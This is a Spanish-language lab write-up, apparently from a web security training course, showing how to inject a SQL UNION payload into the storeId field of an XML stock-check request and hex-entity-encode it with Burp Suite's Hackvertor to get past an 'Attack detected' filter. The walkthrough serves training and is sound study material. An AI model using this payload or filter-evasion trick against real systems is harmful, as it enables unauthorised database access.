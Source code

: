 ### Lab: SQL injection with filter bypass via XML encoding

Lo que tienes que hacer aqui es inyectar codigo SQL en algun campo de los que se muestra en la pagina de seleccion, por lo que con el BurpSuit capturamos la peticion estando a la escucha y dandole al boton `check stock`, una vez hecho esto estariamos viendo el `request`, por lo que el codigo que tendremos que inyectar sera en el siguiente campo...

```html
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

Nuestro codigo lo inyectaremos en la seccion de `storeId` pero no lo podemos inyectar asi a pelo...

```html
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1 union select NULL-- -
	</storeId>
</stockCheck>
```

Info:

```
"Attack detected"
```

Por que no va a funcionar, por lo que utilizaremos una cosa especial que hay que instalar en BurpSuit que nos facilitara toda esta tarea de codificarlo...

En BurpSuit nos vamos a la seccion de `Extensiones` y en la casilla de `BAppStore` dentro de ahi buscamos la herramienta llamada `Hackvertor` y la instalamos...

Una vez instalada nos volvemos a donde tenemos el codigo, seleccionamos el codigo `1 union select NULL-- -`, click derecho, nos vamos a la opcion que pone `Extensiones`, de ahi vamos a `Hackvector`, nos vamos a `Encode` y dentro de esta opcion habra varias codificaciones, en mi caso elijo la llamada `hex_entities`, se nos quedara de esta manera...

```html
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		<@hex_entities>
			1 union select NULL-- -
		<@/hex_entities>
	</storeId>
</stockCheck>
```
